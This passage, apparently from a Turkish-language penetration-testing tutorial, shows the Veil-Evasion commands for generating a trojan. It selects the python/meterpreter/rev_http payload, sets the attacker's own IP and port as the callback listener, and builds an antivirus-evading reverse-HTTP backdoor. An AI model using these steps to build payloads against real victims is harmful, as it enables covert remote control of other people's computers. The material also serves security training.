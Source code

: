 ![Veil Intro](./assets/25-veil-intro.png)

### Trojan Oluşturmak
```
# veil  # veil'i açtık
Veil>: use 1  # 1. aracı seçtik
Veil/Evasion>: list # araçtaki trojanları listeledik
Veil/Evasion>: use 26 # 26 numaralı trojanı seçtik

[python/meterpreter/rev_http>>]: set LHOST 192.168.1.87 # LHOST değişkenini set ediyoruz, kendi IP adresimiz
[python/meterpreter/rev_http>>]: set LPORT 8080

[python/meterpreter/rev_http>>]: generate # Trojan'ı oluşturuyoruz, bize çıktı olarak nereye oluşturduğunu verecektir
```
![Veil Generate](./assets/26-veil-generate.png)
